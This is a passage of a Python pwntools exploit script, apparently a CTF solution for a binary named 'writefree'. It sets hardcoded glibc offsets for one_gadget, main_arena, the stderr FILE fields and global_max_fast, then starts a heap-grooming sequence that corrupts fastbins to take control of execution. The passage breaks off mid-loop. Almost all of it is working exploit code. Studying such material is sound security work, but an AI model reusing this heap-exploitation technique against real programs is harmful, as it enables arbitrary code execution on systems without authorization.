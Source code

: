 ```python: exploit.py
from pwn import *

context.binary = 'writefree'

io = remote('localhost', 10012)

def malloc(var: str, size: int) -> bytes:
    io.sendline(('%s=malloc(%d)'%(var, size)).encode())

def free(var: str) -> bytes:
    io.sendline(('free(%s)'%var).encode())

def read(var: str, data: bytes) -> bytes:
    io.sendline(('%s=read(%d)'%(var, len(data))).encode())
    io.send(data)

def exit() -> bytes:
    io.sendline('exit(0)'.encode())

one_gadget          = 0x04f2c5
__default_morecore  = 0x09b190
call_rax            = 0x09b2a5
_IO_str_jumps       = 0x3e8360
main_arena          = 0x3ebc40
fastbinsY           = main_arena + 0x10
__more_core         = 0x3ec4d8
stderr              = 0x3ec680
_flags              = stderr + 0x00
_IO_write_ptr       = stderr + 0x28
_IO_buf_base        = stderr + 0x38
_IO_buf_end         = stderr + 0x40
vtable              = stderr + 0xd8
_allocate_buffer    = stderr + 0xe0
global_max_fast     = 0x3ed940

# 指定された(libc_baseからの相対)アドレスにchunkを繋げるためのサイズを返す
def size_chunk(addr: hex) -> bytes:
    return pack((addr - fastbinsY) * 2 + 0x21)

# 指定された(libc_baseからの相対)アドレスにchunkを繋げるためにmallocするべきサイズを返す
def size_malloc(addr: hex) -> hex:
    return (addr - fastbinsY) * 2 + 0x10

malloc('A', 0x10)
malloc('B', 0x410)
malloc('C', 0x10)

for addr in [
    _flags,
    _IO_write_ptr,
    _IO_buf_base,
    _IO_buf_end,
    vtable,
    _allocate_buffer,
    __more_core,
    global_max_fast-0x8,
    global_max_fast+0x8
]:
    malloc('D', size_malloc(addr))
    free('D')
malloc('D', 0x10)

for addr in [
```